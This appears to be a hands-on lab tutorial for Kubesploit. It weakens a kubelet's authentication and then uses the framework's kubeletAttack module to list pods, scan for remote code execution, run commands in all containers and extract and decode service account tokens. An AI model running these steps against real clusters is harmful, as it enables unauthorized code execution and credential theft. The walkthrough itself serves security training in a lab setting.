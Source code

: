 
#### Introduction  

In this scenario, we will use Kubesploit to exploit a vulnerable kubelet.  
Kubelet is the remote agent of Kubernetes that runs on each worker, and its primary goal is to run containers.  
On a vulnerable kubelet, an attacker can access the containers, get their names and run code inside them.  


#### Prepare the enviornment  


For this scenario we will need to do some changes for kubelet:  
```
if [ -f "/var/lib/kubelet/config.yaml" ]; then
	sed -i 's/    enabled: false/    enabled: true/g' /var/lib/kubelet/config.yaml
    sed -i 's/  mode: Webhook/  mode: AlwaysAllow/g' /var/lib/kubelet/config.yaml
    service kubelet restart
	echo "Kubelet config has been changed"
	else
	  echo "The file /var/lib/kubelet/config.yaml doesn't exist, does the cluster is up?"
fi
```{{execute HOST2}}   

After the change, check from the Master that you can communicate with kubelet without authentication:  
```
if [ `curl -sk  https://node01:10250/healthz` == "ok" ]; then
   echo "Kubelet is configured for anonymous connections"
   else
   echo "Kubelet is NOT configured"
fi
```{{execute T1}}  

Make sure you get the message: "Kubelet is configured for anonymous connections". If not, try again until it gets configured.  

#### Load the Kubelet module and run it

Load the kubelet attack module from Terminal Host 1 by running `use module linux/go/kubeletAttack`{{execute T1}}.  

You can view all the information with `info`{{execute T1}} command.  
The module is set automatically to run on all the agents with this command; if it wasn't set, you could do it by running `set Agent all`{{execute T1}}.  
 
We need to set the IP of the target machine, let's find the IP by running `ip addr show ens3  | awk '$1 == "inet" { print $2 }' | cut -d/ -f1`{{execute T3}} in `node1` (Terminal Host 2).  
Now, **take this IP address and type in the server** `set Url https://<IP>:10250`, and **replace** `<IP>` with the **IP address we received**.  

The default command will list the pods through kubelet, execute it with `run`{{execute T1}} and wait for the output.  

#### Scan for RCE    
We can also change the command by using `set Command rce`{{execute T1}} and `run`{{execute T1}} it.  

#### Run any command 
 
Change the command by using `set Command run -a whoami`{{execute T1}} and `run`{{execute T1}} it.   
It will run the `whoami` command on all the available containers.  

#### Scan for tokens
Change the command by using `set Command token`{{execute T1}} and `run`{{execute T1}} it.   
It will go over any available container and search for the container's mounted service account token and decode it.    


